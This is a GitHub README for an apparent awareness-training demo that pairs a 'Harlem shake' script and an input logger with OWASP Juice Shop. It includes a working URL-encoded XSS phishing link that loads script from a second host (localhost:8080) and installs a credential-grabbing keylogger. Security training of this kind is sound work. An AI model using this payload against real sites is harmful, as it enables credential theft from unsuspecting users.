 # shake-logger
This projects provides a logger and a connected harlem shake js. The shake logger runs on port 8080, make sure that it is not blocked.

> Please enable [autoplay](https://www.ghacks.net/2018/02/06/how-to-control-audio-and-video-autoplay-in-google-chrome/) in your browser.

# Juice Shop
This projects helps in awareness trainings, specally with the [juice shop](https://github.com/bkimminich/juice-shop).
You can use it via docker and docker-compose running:
´docker-compose up´

To show the possible impact of [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)), assume you received and (of course) clicked
[this inconspicuous phishing link](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp)
and login. Apart from the visual/audible effect, the attacker also
installed [an input logger](http://localhost:8080/logger.php) to grab credentials! This could easily run on a 3rd party server in real life!

> You can also find a recording of this attack in action on YouTube:
> [:tv:](https://www.youtube.com/watch?v=L7ZEMWRm7LA)
